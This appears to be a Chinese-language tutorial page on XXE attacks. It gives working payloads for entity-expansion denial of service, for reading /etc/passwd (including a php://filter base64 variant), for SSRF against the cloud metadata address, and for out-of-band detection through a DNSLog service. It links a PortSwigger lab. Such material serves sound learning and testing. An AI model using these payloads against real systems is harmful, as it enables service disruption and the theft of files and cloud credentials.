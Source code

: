 
# 2. 攻击方式  
---
## 2.1 DOS 拒绝服务攻击  
```xml
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```
若解析过程非常缓慢，表示攻击成功。目标可能有 DOS 漏洞。具体可以使用更多层的 entity 或者递归，也可使用更加巨大的外部实体。  

## 2.2 文件读取  
[[常见敏感信息路径]]  
利用外部实体来读取系统的敏感文件，也可配合其他协议获取文件内容。
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

配合 php 伪协议，对内容进行 base 64 编码，可以获取到非法的 xml 字符：
```xml
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
```

## 2.3 利用 XXE 进行 SSRF 攻击  
可以诱导服务器端应用程序向服务器可以访问的任何 URL 发出 HTTP 请求。
要利用 XXE 漏洞执行 SSRF 攻击，您需要使用要定位的 URL 定义外部 XML 实体，并在数据值中使用已定义的实体。
portswigger 的靶场连接：[Lab: Exploiting XXE to perform SSRF attacks | Web Security Academy](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)  
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/"> 
]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

## 2.4 使用外带技术（OAST）检测无回显 XXE  
通常可以使用与 XXE SSRF 攻击相同的技术来检测无回显 XXE，这会触发与目标后端服务器与攻击者系统的带外网络交互。  
例如：构造外部实体：`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "URL"> ]>`  
此 XXE 攻击会导致服务器向指定的 URL 发出后端 HTTP 请求。攻击者可以监视由此产生的 DNS 查找和 HTTP 请求，从而检测到 XXE 攻击成功。  
此处可以配合使用 [DNSLog Platform](http://www.dnslog.cn/)，将 URL 设置为该网站的 subdomain，并进行刷新。  
